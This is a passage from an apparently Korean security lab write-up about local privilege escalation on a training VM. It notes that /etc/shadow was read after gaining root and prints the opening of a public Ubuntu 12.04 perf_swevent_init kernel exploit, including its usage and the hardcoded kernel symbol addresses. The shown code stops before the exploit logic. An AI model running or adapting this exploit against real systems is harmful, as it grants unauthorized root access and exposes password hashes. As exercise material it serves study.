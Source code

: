 권한 상승을 통한 `/etc/shadow` 파일 읽기에 성공하였다.


# do: LPE() - automated
`TestVM`의 `/home/test/exercises/perf` 위치에 `perf_swevent_init` 함수의 취약점을 이용한 Ubuntu 12.04 [LPE Exploit PoC](https://www.exploit-db.com/exploits/33589)가 존재한다.
```sh
test@ubuntu:~/exercises/perf$ ls
vnik_v1  vnik_v1.c
test@ubuntu:~/exercises/perf$
```

**vnik_v1.c**
```c
/**
 * Ubuntu 12.04 3.x x86_64 perf_swevent_init Local root exploit
 * by Vitaly Nikolenko (vnik5287@gmail.com)
 *
 * based on semtex.c by sd
 *
 * Supported targets:
 * [0] Ubuntu 12.04.0 - 3.2.0-23-generic
 * [1] Ubuntu 12.04.1 - 3.2.0-29-generic
 * [2] Ubuntu 12.04.2 - 3.5.0-23-generic
 *
 * $ gcc vnik.c -O2 -o vnik
 *
 * $ uname -r
 * 3.2.0-23-generic
 *
 * $ ./vnik 0
 */

#define _GNU_SOURCE 1
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <syscall.h>
#include <stdint.h>
#include <assert.h>

#define BASE  0x1780000000
#define SIZE  0x0010000000
#define KSIZE 0x2000000
#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

uint64_t targets[3][3] =
            {
	     {0xffffffff81ef67e0,  // perf_swevent_enabled
              0xffffffff81091630,  // commit_creds
              0xffffffff810918e0}, // prepare_kernel_cred
             {0xffffffff81ef67a0,
              0xffffffff81091220,
              0xffffffff810914d0},
             {0xffffffff81ef5940,
              0xffffffff8107ee30,
              0xffffffff8107f0c0}
	    };
```

[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>